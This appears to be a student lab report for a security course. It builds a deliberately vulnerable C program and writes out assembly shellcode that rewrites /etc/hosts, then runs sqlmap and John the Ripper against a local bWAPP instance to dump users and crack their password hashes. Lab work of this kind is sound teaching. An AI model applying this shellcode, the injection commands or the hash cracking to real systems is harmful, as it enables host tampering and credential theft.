

# Lab Report #1: Vulnerability Exploitation and Database Attack
**Student:** Nguyen Nhat Quang  
**ID:** 22110065  
**Course:** INSE330380E_24_1_02FIE  

## Task 1: Software Buffer Overflow Attack

### Question 1: Stack Frame of the Main Function
Stackframe of the main function:

### Step 1: Create the Vulnerable C Program
To begin, we will create a simple C program that contains a buffer overflow vulnerability.

```bash
# Create vulnerable.c
nano vulnerable.c
```

Copy and paste the following code into `vulnerable.c`:

```c
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[]) {
    char buffer[16];
    strcpy(buffer, argv[1]);
    return 0;
}
```

### Step 2: Compile the Vulnerable Program
Compile the program with security features disabled to facilitate the buffer overflow attack.

```bash
# Compile with security features disabled
gcc -fno-stack-protector -z execstack -mpreferred-stack-boundary=2 -o vulnerable vulnerable.c
```

### Step 3: Create the Shellcode Assembly
Next, we will write our shellcode in assembly language.

```bash
# Create shellcode.asm
nano shellcode.asm
```

Copy and paste the following assembly code into `shellcode.asm`:

```nasm
global _start

section .text

_start:
    xor ecx, ecx
    mul ecx
    mov al, 0x5     
    push ecx
    push 0x7374736f     ; /etc///hosts
    push 0x682f2f2f
    push 0x6374652f
    mov ebx, esp
    mov cx, 0x401       ; permissions
    int 0x80            ; syscall to open file

    xchg eax, ebx
    push 0x4
    pop eax
    jmp short _load_data ; jmp-call-pop technique to load the map

_write:
    pop ecx
    push 20             ; length of the string
    pop edx
    int 0x80            ; syscall to write in the file

    push 0x6
    pop eax
    int 0x80            ; syscall to close the file

    push 0x1
    pop eax
    int 0x80            ; syscall to exit

_load_data:
    call _write
    google db "127.1.1.1 google.com"
```

### Step 4: Compile the Shellcode
Now we will assemble and link our shellcode.

```bash
# Assemble the shellcode
nasm -f elf32 shellcode.asm -o shellcode.o

# Link the object file
ld -m elf_i386 shellcode.o -o shellcode
```

### Step 5: Extract Raw Shellcode Bytes
Finally, we will extract the raw bytes of our shellcode and save them to a file.

```bash
# Extract shellcode bytes and save to file
objdump -d shellcode | grep '[0-9a-f]:' | cut -f2 -d: | tr -s ' ' | tr '\t' ' ' | sed 's/ $//g' | sed 's/ /\\x/g' | paste -d '' -s > shellcode.txt
```

---

## Task 2: SQL Injection Attack on Vulnerable Application Database

### Setup Instructions:
- Start the Docker container for SQLi.
Docker Setup

### Install SQLMap:
To install SQLMap, run the following commands:

```bash
sudo apt update
sudo apt install python3 python3-pip
sudo pip3 install sqlmap
```
SQLMap Installation

### Question 1: Retrieve Information About Available Databases

**Answer:**





1. Open your web browser and navigate to: `http://localhost:8025/install.php`.
2. Complete the installation process and log in using:
   - **Username:** bee  
   - **Password:** bug  
3. In the bWapp menu, select "A1 - SQL Injection" from the dropdown.
4. Execute SQLMap targeting the vulnerable page:

```bash
sqlmap -u "http://localhost/sqli_1.php?title=1" --dbs
```

### Question 2: Retrieve Tables and User Information

**Answer:**
- After identifying available databases, list tables from a specific database:

```bash
sqlmap -u "http://localhost/sqli_1.php?title=1" -D db_name --tables
```

- To dump user information from a relevant table:

```bash
sqlmap -u "http://localhost/sqli_1.php?title=1" -D db_name -T users --dump
```

### Question 3: Use John the Ripper to Crack Passwords of Database Users

**Answer:**
1. Export hashed passwords:

```bash
sqlmap -u "http://localhost/sqli_1.php?title=1" -D db_name -T users --dump --passwords 
```

2. Save the hashes to a file named `hashes.txt`.
3. Use John the Ripper to attempt cracking these password hashes:

```bash
john --format=raw-md5 hashes.txt 
```
